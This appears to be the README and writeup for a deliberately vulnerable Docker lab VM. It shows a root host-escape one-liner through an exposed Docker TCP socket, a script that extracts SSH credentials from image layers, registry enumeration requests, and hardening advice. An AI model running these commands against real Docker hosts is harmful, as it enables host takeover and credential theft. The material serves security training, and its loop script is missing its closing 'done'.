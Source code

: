 # Docker-Security-Flaws 

## Installation
This module shows two of many possible misconfiguration in Docker environments that could lead to security-related vulnerabilities.
To use it, the `ssh.sh` script, as well as the `docker-security-flaws.sh` script must be included in `modules.txt`. After running the makeVM.sh script, the vulnerable docker setup is ready to use.

## Writeup

There are two ways to exploit the vm.

### 1) Exploit VM via via exposed socket (RCE)

- exposed socket in `/var/run` 
- possible to execute docker commands remotely
- `docker -H tcp://localhost:4444 run -v /:/mnt --rm -it alpine chroot /mnt sh`
- mountings the hosts `/` directory to the `/mnt` directory in a new container, `chrooting` and then connecting via `shell`

### 2) Exploit VM via investigating image layers 

Since it is possible to load images from the registry, we can further investigate those. The workstation image contains ssh credentials for the vm. 

```
#!/bin/bash

docker -H tcp://localhost:4444 save 127.0.0.1:5000/workstation:latest > image.tar

mkdir image-data
tar -xf image.tar -C image-data/

cd image-data/
for i in ./*/; do
    cd $i
    tar -xf layer.tar
    if [ -e root/ws.env ]; then
        cat root/ws.env
        exit 0
    fi
    cd ..

```

It is also possible to use tools like [dive](https://github.com/wagoodman/dive) to take a closer look at layers.


## Further information

### Registry discovery

When discovering a registry, it is always useful to enumerate it further. For example, it is possible to find out all repositories registered on this registry. This is possible as follows:

`GET http://<IP>:<PORT>/v2/_catalog`

Each repository has at least one 'tag' (latest), which can be used for further enumeration. Tags are often software versions or architecture notes.

Its possible to query all published tags via:

`GET http://<IP>:<PORT>/v2/repository/<name>/tags/list`

Its furthermore possible to enumerate a specific repository and the manifest like so:

`GET http://<IP>:<PORT>/v2/cmnatic/<name>/manifests/<tag>`

So it is partly possible to pick off deep hanging fruits and to discover for example information disclosures or default credentials.

### Socket

In most cases, people associate the word socket with network connections. In this case, however, it is a Unix socket. Simply put, UNIX sockets accomplish the same goal as network sockets - transferring data. However, in the host itself with the help of the file system, unlike network interfaces

Due to the fact that UNIX sockets use the filesystem directly, you can use filesystem permissions to decide who or what can read/write. 

Users interact with Docker by using the Docker Engine. For example, commands such as `docker pull` or `docker run` will be executed by the use of a socket - this can either be a UNIX or a TCP socket, but by default, it is a UNIX socket. This is why you must be a part of the "docker" group to use the docker command (remembering that UNIX sockets can use file permissions here!).

Developers love to automate, and this is proven nonetheless with Docker. Whilst Docker uses a UNIX socket, meaning that it can only interact from the host itself. However, someone may wish to remotely execute Docker commands such as in Docker management tools like Portainer or DevOps applications like Jenkins to test their program.


To achieve this, the daemon must use a TCP socket instead, permitting data for the Docker daemon to be communicated using the network interface and ultimately exposing it to the network for us to exploit.
It would be advisable to use some form of authentication (e.g., a proxy) to prevent misuse as shown in this vulnerable machine. Even better: Do not expose a socket at all.

### Docker images / layers

Do not use docker images from untrusted sources. If you use docker images, try to understand the image creation process. Do not store or load credentials in docker images.


